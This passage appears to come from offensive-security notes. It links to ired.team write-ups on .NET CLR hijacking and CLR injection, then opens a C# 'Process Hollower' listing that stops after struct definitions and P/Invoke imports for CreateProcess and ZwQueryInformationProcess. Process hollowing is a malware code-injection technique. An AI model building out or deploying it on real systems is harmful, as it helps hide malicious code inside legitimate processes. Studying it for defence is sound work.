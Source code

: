 ```cs 
```
  - **CLR Hijacking**
	  -  [injecting-dll-via-custom-.net-garbage-collector-environment-variable-complus_gcname-](https://www.ired.team/offensive-security/code-injection-process-injection/injecting-dll-via-custom-.net-garbage-collector-environment-variable-complus_gcname-)
  - **CLR Injection**
	  - https://www.ired.team/offensive-security/code-injection-process-injection/injecting-and-executing-.net-assemblies-to-unmanaged-process

- **`Process Hollower In Csharp`**
```cs
//Process Hollower In Csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Threading;
using System.Text;
using System.Threading.Tasks;
namespace hollow {
  class Program {
    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)] struct STARTUPINFO {
      public Int32 cb;
      public string lpReserved;
      public string lpDesktop;
      public string lpTitle;
      public Int32 dwX;
      public Int32 dwY;
      public Int32 dwXSize;
      public Int32 dwYSize;
      public Int32 dwXCountChars;
      public Int32 dwYCountChars;
      public Int32 dwFillAttribute;
      public Int32 dwFlags;
      public Int16 wShowWindow;
      public Int16 cbReserved2;
      public IntPtr lpReserved2;
      public IntPtr hStdInput;
      public IntPtr hStdOutput;
      public IntPtr hStdError;
    } 
    [StructLayout(LayoutKind.Sequential)] internal struct PROCESS_INFORMATION {
      public IntPtr hProcess;
      public IntPtr hThread;
      public int dwProcessId;
      public int dwThreadId;
    } 
[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)] 
static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
private struct PROCESS_BASIC_INFORMATION {
      public IntPtr ExitStatus;
      public IntPtr PebBaseAddress;
      public UIntPtr AffinityMask;
      public int BasePriority;
      public UIntPtr UniqueProcessId;
      public UIntPtr InheritedFromUniqueProcessId;
    } 
[DllImport("ntdll.dll", SetLastError = true)] static extern UInt32 ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, UInt32 ProcInfoLen, ref UInt32 retlen);

```